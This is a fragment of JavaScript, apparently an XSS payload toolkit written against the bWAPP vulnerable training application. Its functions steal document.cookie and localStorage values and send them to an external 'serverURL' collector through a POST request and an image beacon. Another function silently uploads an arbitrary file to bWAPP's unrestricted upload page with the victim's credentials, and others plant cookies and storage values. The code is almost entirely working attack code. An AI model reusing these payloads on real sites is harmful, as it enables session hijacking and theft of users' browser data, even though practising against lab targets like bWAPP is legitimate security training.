 ```
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

function fileUpload() {

    var b64file = base64File
    var blob = base64toBlob(b64file, contentType);
    
    var formData = new FormData();
    formData.append('file', blob, uploadFileName);
    formData.append('MAX_FILE_SIZE', 10);
    formData.append('form','Upload');
    
    var urlOfThePage = window.location.protocol + "//" + window.location.host
    var url = urlOfThePage + '/bWAPP/unrestricted_file_upload.php';
    xhr = new XMLHttpRequest();
    xhr.open('POST', url);
    xhr.withCredentials = "true";
    
    xhr.send(formData);
}

function getCookie() {
    var url = serverURL + "/saveCookie";
    var body = "a=" + document.cookie;
    xr = new XMLHttpRequest();
    xr.open("POST", url, true);
    xr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")
    xr.send(body);
}

function setCookie() {
    document.cookie = key + "=" + value; 
}

function getLocalStorage() { 
    var data = window.localStorage.getItem(key);
    var i=new Image;
    i.src= serverURL + "/saveLocalStorage?a=" +data;
}

function setLocalStorage() { 
    localStorage.setItem(key, value)
}

function getSessionStorage() { 
    var data = window.sessionStorage.getItem(key);
```